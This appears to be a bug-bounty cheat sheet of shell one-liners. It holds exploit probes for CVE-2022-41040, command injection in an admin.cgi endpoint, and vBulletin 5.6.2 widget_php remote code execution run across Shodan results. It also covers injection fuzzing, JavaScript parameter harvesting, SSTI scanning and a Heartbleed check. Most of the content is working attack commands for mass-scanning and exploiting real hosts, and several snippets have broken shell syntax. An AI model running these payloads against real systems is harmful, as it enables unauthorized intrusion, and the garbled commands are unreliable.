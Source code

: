 ### CVE-2022-41040:
```
ffuf -w "urls.txt:URL" -u "https://URL/autodiscover/autodiscover.json?@URL/&Email=autodiscover/autodiscover.json%3f@URL" -mr "IIS Web Core" -r
```
---------
## RCE:
```
cat targets.txt | httpx -path "/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id" -nc -ports 80,443,8080,8443 -mr "uid=" -silent 
```
### vBulletin 5.6.2
```
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```
```
subfinder -d target.com | httpx | gau | qsreplace “aaa%20%7C%7C%20id%3B%20x” > fuzzing.txt; ffuf -ac -u FUZZ -w fuzzing.txt -replay-proxy 127.0.0.1:8080
```
-----------
## JS Files:
### Find JS Files:
```
<gau/katana/hakrawler/waybackurls> target.com | grep -iE '.js'|grep -iEv '(.jsp|.json)' | anew js.txt
```
```
<subfinder/assetfinder/amass/chaos> target.com | <gau/katana/hakrawler/waybackurls> | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```
### Hidden Params in JS:
```
cat subs.txt | <gau/katana/hakrawler/waybackurls> | sort -u | httpx -silent -threads 100 | grep -Eiv '(.eot|.jpg|.jpeg|.gif|.css|.tif|.tiff|.png|.ttf|.otf|.woff|.woff2|.ico|.svg|.txt|.pdf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -Eiv '\.js$|([^.]+)\.js|([^.]+)\.js\.[0-9]+$|([^.]+)\.js[0-9]+$|([^.]+)\.js[a-z][A-Z][0-9]+$' | sed 's/.*/&=FUZZ/g'); echo -e "\e[1;33m$url\e[1;32m$vars";done
```
### Extract sensitive end-point in JS:
```
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```
-------------------------
### SSTI:
```
for url in $(cat targets.txt); do python3 tplmap.py -u $url; print $url; done
```
---------------------------
## HeartBleed
```
cat urls.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line; safe; done
```
------------------